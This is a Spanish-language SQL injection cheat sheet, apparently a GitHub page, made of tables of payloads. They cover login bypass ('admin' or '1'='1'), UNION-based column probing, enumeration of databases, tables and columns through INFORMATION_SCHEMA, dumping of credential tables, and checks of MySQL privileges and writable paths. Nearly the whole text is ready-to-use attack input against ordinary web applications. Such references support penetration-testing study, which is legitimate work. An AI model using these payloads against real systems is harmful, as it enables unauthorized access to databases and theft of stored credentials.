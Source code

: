 ### Auth Bypass

| Carga útil | Descripción |
|-----------|-------------|
| `admin' or '1'='1` | Bypass básico |
| `admin')-- -` | Bypass con comentario |

### Unión

| Payload | Descripción |
|--------|-------------|
| `' order by 1-- -` | Determina número de columnas |
| `cn' UNION SELECT 1,2,3-- -` | Prueba de columnas en unión |
| `cn' UNION SELECT 1,@@version,3,4-- -` | Inyección con versión MySQL |
| `UNION SELECT username,2,3,4 FROM passwords-- -` | Volcado con unión |

---

### Enumeración de la DB

| Payload | Descripción |
|--------|-------------|
| `SELECT @@version` | Versión del servidor |
| `SELECT SLEEP(5)` | Prueba sin salida |
| `cn' UNION SELECT 1,database(),2,3-- -` | Base de datos actual |
| `...FROM INFORMATION_SCHEMA.SCHEMATA...` | Lista de todas las bases de datos |
| `...FROM INFORMATION_SCHEMA.TABLES...` | Tablas de una DB específica |
| `...FROM INFORMATION_SCHEMA.COLUMNS...` | Columnas de una tabla específica |
| `...FROM dev.credentials...` | Volcado de credenciales |

---

### Privilegios

| Payload | Descripción |
|--------|-------------|
| `cn' UNION SELECT 1,user(),3,4-- -` | Usuario actual |
| `... FROM mysql.user WHERE user='root'...` | Privilegios de root |
| `... FROM information_schema.user_privileges...` | Todos los privilegios |
| `... FROM information_schema.global_variables WHERE variable_name='secure_file_priv'` | Rutas de escritura permitidas |

---